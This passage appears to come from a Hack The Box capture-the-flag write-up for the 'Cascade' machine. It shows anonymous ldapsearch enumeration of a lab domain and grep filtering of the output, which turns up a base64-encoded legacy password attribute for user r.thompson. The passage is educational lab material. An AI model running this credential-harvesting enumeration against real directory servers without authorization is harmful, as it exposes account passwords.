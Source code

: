 ## LDAP Enumeration

First I save the ldap result in a file. And looking at that shows a new thing called `cascadeLegacyPwd`, So I just checked if there is any other Pwd and its the only one.

```nix
root@kali:~/CTF/HTB/Boxes/Cascade# ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectclass=Person)' > ldapresult
root@kali:~/CTF/HTB/Boxes/Cascade# cat ldapresult | grep Pwd
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
cascadeLegacyPwd: clk0bjVldmE=
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
```

So its for user `r.thompson` and it is base 64 encoded

```nix
root@kali:~/CTF/HTB/Boxes/Cascade# cat ldapresult | grep -B 25 cascadeLegacyPwd:
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```
